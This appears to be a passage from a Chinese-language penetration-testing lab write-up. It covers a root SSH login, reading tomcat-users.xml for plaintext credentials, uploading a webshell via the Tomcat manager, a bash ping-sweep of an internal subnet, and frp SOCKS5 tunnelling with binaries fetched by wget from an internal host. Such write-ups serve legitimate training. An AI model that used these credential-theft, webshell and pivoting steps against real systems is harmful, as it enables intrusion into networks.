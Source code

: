 kali执行：
ssh -i ~/.ssh/id_rsa -p 34483 root@172.16.2.5
成功获得root的ssh-shell！！！

------------------------
拓展小技巧：
方法1：tomcat密码
枚举home/ta目录下：ai-gui-guide.txt
发现了-Tomcat   - /usr/local/tomcat/信息

Tomcat将用户和密码存储在名为“tomcat-users.xml”的文件中：
cd /usr/local/tomcat/
cd conf
cat tomcat-users.xml
user username="Lady3Jane" password="&gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;"
html解码：>!Xx3JanexX!<
获得用户名密码：
Lady3Jane
>!Xx3JanexX!<
访问：8080页面上传dayu大马即可！


方法三：大批量小技巧
------------------------
#!/bin/bash

for ip in $(seq 1 254); do
   ping -c 1 172.16.3.$ip | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
------------------------
这是在对内网扫描大批量情况下需要复制黏贴使用的bash脚本！



实战拓展技能：
1、下载frp

[common]
bind_addr = 0.0.0.0
bind_port = 7000


# frpc.ini
[common]
server_addr = 192.168.253.11
server_port = 7000
[http_proxy]
type = tcp
remote_port = 7777
plugin = socks5



wget http://172.16.2.4:5555/frpc
wget http://172.16.2.4:5555/frpc.ini
./frps -c frps.ini
./frpc -c frpc.ini
